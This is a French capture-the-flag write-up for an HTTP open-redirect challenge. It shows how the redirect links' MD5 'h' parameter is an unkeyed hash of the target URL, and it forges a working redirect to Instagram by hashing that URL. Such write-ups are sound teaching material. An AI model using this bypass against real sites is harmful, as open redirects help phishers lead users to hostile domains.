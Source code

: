 # HTTP - Open redirect

## Enoncé

```
Trouvez un moyen de faire une redirection vers un domaine autre que ceux proposés sur la page web.
```

## Procédure

1. Analyse de la page

Il y a 3 liens cliquables, un vers Facebook, un autre vers Twitter et le dernier vers Slack

Voici le code source de la page html représentant les 3 liens: 

```
<a href='?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
```

2. Analyse du hash

Exemple pour facebook : 

```
cypher = a023cfbf5f1c39bdf8407f28b60cd134 <-- Type de hash MD5
cypher = https://facebook.com
```

3. Création de la payload

Pour ce faire il me faut un site web comme Facebook, je vais prendre Instagram.

```
https://www.instagram.com
```

J'encode ensuite le lien en MD5.

```
81baa2bda524b19dddf2507580b95e0b
```

Résultat : 

```
https://www.instagram.com&h=81baa2bda524b19dddf2507580b95e0b
```

4. Exploitation 

Je remplace de la page html un lien cliquable par le mien et je clique ensuite dessus.

Changement sur la page : 

```
<a href='?url=https://www.instagram.com&h=81baa2bda524b19dddf2507580b95e0b'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
```
